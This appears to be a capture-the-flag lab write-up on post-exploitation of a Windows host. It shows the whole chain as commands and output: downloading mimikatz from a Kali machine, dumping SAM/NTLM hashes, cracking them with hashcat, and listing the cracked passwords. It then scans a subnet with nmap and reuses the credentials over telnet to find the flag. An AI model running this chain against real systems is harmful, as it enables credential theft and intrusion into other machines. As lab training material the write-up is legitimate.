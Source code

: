 # f9038f_hash_cracking

In the last cd699a challenge, we got the reverse shell.

Once we have access to the Windows system, we can dump secrets from the memory.

Check our privileges.
```
> whoami
nt authority\system  # we have system privileges
```

Download the mimikatz from the kali machine.
```
# kali machine
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
python3 -m http.server 8000


# target windows machine using curl
curl.exe -o m.zip http://192.168.0.7:8000/mimikatz_trunk.zip
mkdir m
tar -xf m.zip -C m

# target windows machine using powershell
powershell
$client = New-Object System.Net.WebClient
$client.DownloadFile("http://192.168.0.7:8000/mimikatz_trunk.zip", "C:\m.zip")
mkdir m
tar -xf m.zip -C m
```

Run the mimikatz to dump the secrets.
```
mimikatz # privilege::debug # escalate our privileges by letting a user to debug a process that they would normally not be allowed to 
mimikatz # log result.log # record the output to a file
mimikatz # lsadump::sam # dump the SAM database and NTLM
```

After that, we need to crack these hashes using `hashcat`, `john` or https://crackstation.net/.
```
# the result will be in ~/.local/share/hashcat/hashcat.potfile
hashcat -m 1000 -a 0 -O hash.txt /usr/share/wordlists/rockyou.txt  

# or we can specify the output file
hashcat -m 1000 -a 0 -O -o username_cracked.txt digest.txt /usr/share/wordlists/rockyou.txt  

```

Here is the result.
```
Domain : EN2720-W1-LAZAR
SysKey : 59e7a1c9940dab865bbab3c1bc73f4b4
User : Administrator
  Hash NTLM: b26f80138894f9d4803a0d5551db7e05
User : goldstein
  Hash NTLM: 11abdc9513314fca062737d7f7cf2555:brilliance
User : blade
  Hash NTLM: ae6426dabf7efc505246787eb6bcfdb3:nebbie
User : crash_override
  Hash NTLM: 452df09674d62ca8ca08ee3c4e196547:psychosocial
User : acid_burn
  Hash NTLM: d40c9663d248f741bce61c9fb97fcbbc:calvi
User : phantom_phreak
  Hash NTLM: 1895a0eee51ebcfc84b5fc328006a46e:chessmen
 User : mr_babbage
  Hash NTLM: 222314d436a3c01864ec11c50c8cf136:snark
 User : kate_libby
  Hash NTLM: adb35a66c317f149389bd2f360ef80b9:wingspan
User : hal
  Hash NTLM: 11b28f858ce373f370696e2eecdb9c93:sab
User : admin
  Hash NTLM: e84d037613721532e6b6d84d215854b6:1111
```

When we got the password, it is time to find the target. Usually, people use the same username and password in different machines.

For ssh, ftp, telnet, rdp, smb, we need password and username.
```
nmap -p 21 10.0.0.0/20 # ftp 10.0.3.197
nmap -p 22 10.0.0.0/20 # ssh 10.0.3.197, 10.0.3.206, 10.0.3.133, 10.0.2.197
nmap -p 23 10.0.0.0/20 # telnet 10.0.3.133, 10.0.2.204
nmap -p 3389 10.0.0.0/20 # rdp 10.0.3.197
nmap -p 445 10.0.0.0/20  # smb 10.0.3.197
```

Use hydra to brute force the telnet, everytime I got different result and it is not working. Why?
```
hydra -L users.txt -P password.txt telnet://10.0.3.133
```

After that, I tried to enter all the username and password manually to telnet. 
```
telnet 10.0.3.133
en2720-w1-sea-turtle login: blade
Password: nebbie

find / -type f -name "*flag{f90*" 2>/dev/null
/home/flag{f9038fcaf885cf45d99964167e9d4fc967b9a920e34f2e}.jpg

```
